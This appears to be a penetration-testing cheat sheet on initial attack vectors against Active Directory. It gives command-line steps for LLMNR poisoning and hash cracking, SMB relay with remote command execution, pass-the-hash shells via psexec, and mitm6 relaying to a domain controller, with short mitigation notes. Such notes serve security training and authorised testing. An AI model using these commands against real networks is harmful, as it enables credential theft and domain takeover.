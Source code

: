 # AD Initial attack vector

## LLMNR poisoning

<figure><img src=".gitbook/assets/Capture d&#x27;écran 2024-05-06 003240.png" alt=""><figcaption></figcaption></figure>

```
sudo responder -I <interface> -dwPv
# crack hash 
hashcat -m 5600 <hash.txt> <wordlist>
```

### Mitigation

```
# Disable LLMNR
# Disable NBT-NS


#If we can't disable
# Require network access control
# Require strong password policy

```

## SMB Relay

* SMB Signing disabled on target

```bash
nmap --script=smb2-security-mode.nse -p445 <ip>/24
# work if message signing is enabled but not required
# In /etc/responder/Responder.conf disable smb and http -> Not capture its but relay its

# create target.txt and put ip addresses

responder -I <interface> -dwPv 

# ntmrelayx for relay hash
sudo ntlmrelayx.py -tf targets.txt -smb2support
# after intercepted
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
# Interactive mode ( connect with netcat after that)
sudo ntlmrelayx.py -tf targets.txt -smb2support -i

```

### Mitigation&#x20;

* Enable smb signing on all devices
* Disable ntlm auth on network
* Account tiering
* Local administration&#x20;

## Gaining shell access

```
use exploit/windows/smb/psexec
set RHOSTS <rhost>
set SMBDomain <domain>
set SMBUser <user>
set SMBPass <pass>
```

Use psexec.py

```
psexec.py <domain>/<user>:'<pass>'@<ip>

```

Or Use hash&#x20;

```
psexec.py <user>@<ip>--hashes [LM-HASH]:[NTLM-HASH]
# with wmi
psexec.py <user>@<ip> --hashes [LM-HASH]:[NTLM-HASH]
smbexec.py <user>@<ip> --hashes [LM-HASH]:[NTLM-HASH]
```

## MITM6

```
impacket-ntlmrelayx -6 -t ldaps://<IP_DC> -wh fakewpad.<dc>.local -l lootme

```

parallely run

```
sudo mitm6 -d <dc>.local
```

victime trapped by rebooting computer or login to the machine as an DC admin
